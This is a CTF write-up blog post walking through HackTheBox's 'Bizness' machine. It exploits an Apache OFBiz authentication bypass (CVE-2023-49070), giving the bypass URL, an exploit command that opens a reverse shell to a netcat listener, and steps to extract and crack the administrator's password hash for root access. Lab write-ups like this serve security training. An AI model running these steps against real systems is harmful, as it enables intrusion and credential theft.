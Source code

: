 ```yaml
---
title: "CTF: Bizness (HtB, Linux, Easy)"
excerpt: "A detailed walkthrough of \"Bizness\" machine on HackTheBox."
header:
  teaser: /docs/assets/images/teasers/ctf/bizness.png
  og_image: /docs/assets/images/teasers/ctf/bizness.png
  overlay_image: /docs/assets/images/teasers/ctf/bizness.png
  overlay_filter: /docs/assets/images/teasers/ctf/bizness.png
author_profile: false
share: false
tags:
  - HackTheBox
  - Linux
  - Difficulty-Easy
  - Apache OfBiz
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Bizness" machine on HackTheBox platform that is based on Linux operating system and categorized as "Easy"
by difficulty (in reality, HtB staff has their own understading of difficulty levels, so this one can't be defined as "Easy" in the literal sense of the word!). The machine involves exploitation of CVE-2023-49070 - "Authentication Bypass Vulnerability in Apache OfBiz".

## Reconnaissance

To discover open ports and services on the machine, a classic tool **nmap** was utilized with the following commands:
```bash
nmap 10.10.11.252 -p- # scan all sports
nmap -sV 10.10.11.252 -p 80,443,8888,35309,40953 # perform version enumeration on interesting ports
```
Below are the results of nmap enumeration:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/nmapscan.png" alt="">
  <figcaption></figcaption>
</figure>

Our ports of interest are 80 (http) and 443 (https) open. Port 8888 with SimpleHTTPServer was open by another player who already had a foothold on the system, so we will ignore it. Let's navigate to port 80 by browsing to *http://<MACHINE-IP>* (add "bizness.htb" with the IP address to resolv.conf file on your machine). The server redirects us to the HTTPs port on the machine and reveals a webpage:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/biznesssite.png" alt="">
  <figcaption></figcaption>
</figure>

If one scrolls the page down to the very end, they will find that the website is powered by **Apache OfBiz**. This will be our research vector that will prepare us for the Weaponization phase. Other Reconnaissance techniques such as subdomain enumeration, path traversal, directory bruteforcing and others led to no result.

### CVE-2023-49070

Searching for existing vulnerabilities, the eye-catching was a recent one listed under **CVE-2023-49070**. It describes an authentication bypass possible due to flawed logic in handling password change parameters in XML-RPC code. Attacks can leverage this technique to achieve Remote Code Execution on the target through Insecure Object Deserialization vulnerabilities discovered previously in Apache/Java backends.

> How CVE-2023-49070 Works\
Pre-auth RCE Apache Ofbiz 18.12.09#POC:
/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=s&requirePasswordChange=Y
\
This vulnerability concerned an authentication bypass related to the deprecated XML-RPC interface in OFBiz. Specifically the logic checked for a requirePasswordChange parameter and would return requirePasswordChange even with empty or invalid credentials. This allowed the later authentication check to be skipped.

For those interested in developing a deeper understanding, you are welcome to visit the source [article](https://thesecmaster.com/fixing-authentication-bypass-vulnerabilities-in-apache-ofbiz-cve-2023-49070-cve-2023-51467/) with CVE description.

## Weaponization

Explore GitHub for available exploits that could help us achieve foothold on the system. The are several repositories available for the CVE of interest, the exploit that has worked for the author can be downloaded from [here](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/blob/main/exploit.py).

In order to use the exploit, one has to take some time to adapt it and make it work. Firstly, it requires the use of **ysoserial**, which is a proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization. You can find the tool (filename: "ysoserial-all.jar") [here](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar). Place it in the <ins>same directory</ins> as the exploit downloaded previously.

Additionally, the exploit requires <ins>Java version 11</ins> to run. Install it with the following command:
```bash
sudo apt-get install openjdk-11-jre
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/java11.png" alt="">
  <figcaption>Java 11 installation.</figcaption>
</figure>

Configure Java to use Java 11:
```bash
sudo update-alternatives --config java
1 # your list may have a different order, select the number that corresponds to Java 11
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/java11config.png" alt="">
  <figcaption>Java 11 installation.</figcaption>
</figure>

It's time to strike!

## Exploitation / Foothold

* Start a reverse shell listener with Netcat on the desired port:
```bash
nc -lnvp <port>
```

* Run the prepared exploit with the "shell" option to send a reverse shell to the Netcat listener:
```bash
python3 exploit.py https://bizness.htb/ shell <ip>:<port>
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/exploit.png" alt="">
  <figcaption>Running the exploit.</figcaption>
</figure>

If everything was configured and executed correctly, a reverse shell will be sent to the attacker's machine:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/revshell.png" alt="">
  <figcaption>Foothold achieved.</figcaption>
</figure>

### User flag

Navigate to the ofbiz user $home directory and obtain the flag:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/userflag.png" alt="">
  <figcaption>+10 points!</figcaption>
</figure>


## Privilege Escalation

It is known that we are dealing with Apache OfBiz. By analzying its official [documentantion](https://cwiki.apache.org/confluence/display/OFBIZ/Home) as well as other resources, it is possible to discover that the default database used by the application is a Derby database. To discover its location on the system, one may execute the following command:

```bash
find / -type d -iname "derby" 2> /dev/null #Find the specified directory and redirect error output to /dev/null
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/findderby.png" alt="">
  <figcaption>Database location discovered.</figcaption>
</figure>

Navigate to */opt/ofbiz/runtime/data/derby/ofbiz/seg0* directory and discover a list of .dat database files in there. The administator password hash can be discovered by searching for the string "password=" in all files with the following command:

```bash
find *.dat | xargs grep -a -i "password="
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/passwordhash.png" alt="">
  <figcaption>Administrator password hash discovered.</figcaption>
</figure>

Unfortunately, this is <ins>NOT</ins> a straight hash to crack. The challenger has to spend time to analyze the [source code](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java) of the application's hashing function to figure out how password hash is generated and then reverse the process.
According to the source code, the password string get converted to a hexadecimal value, then to Base64 (URL-safe) with the salt specified after the hash type. In our case, the salt is "d" in the full hash string. It is possible to obtain the required hash value to crack using CyberChef. Decode the hash value from Base64 (selecting "URL Safe" from the "Alphabet" dropdown menu), then convert it to Hex and use the rule to remove the spaces for your comfort. The process is shown on the screenshot below:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/cyberchef.png" alt="">
  <figcaption></figcaption>
</figure>

Now, it has become possible to use Hashcat to crack the final hash value that was obtained. Supply it to Hashcat in the format \<hash\>:\<salt\> with the following flags:

```bash
hashcat -a 0 -m 120 <hash>:<salt> /path/to/wordlist
#-a 0 => Dictionary attack mode
#-m 120 => SHA1 hash type
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/hashcracked.png" alt="">
  <figcaption>Password discovered.</figcaption>
</figure>

### Root flag

Use discovered password to log in as **root** on the system and get the flag:

```bash
su root
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/root.png" alt="">
  <figcaption>+20 points!</figcaption>
</figure>

**Thank you for your attention and happy hacking!**
{: .notice--primary}
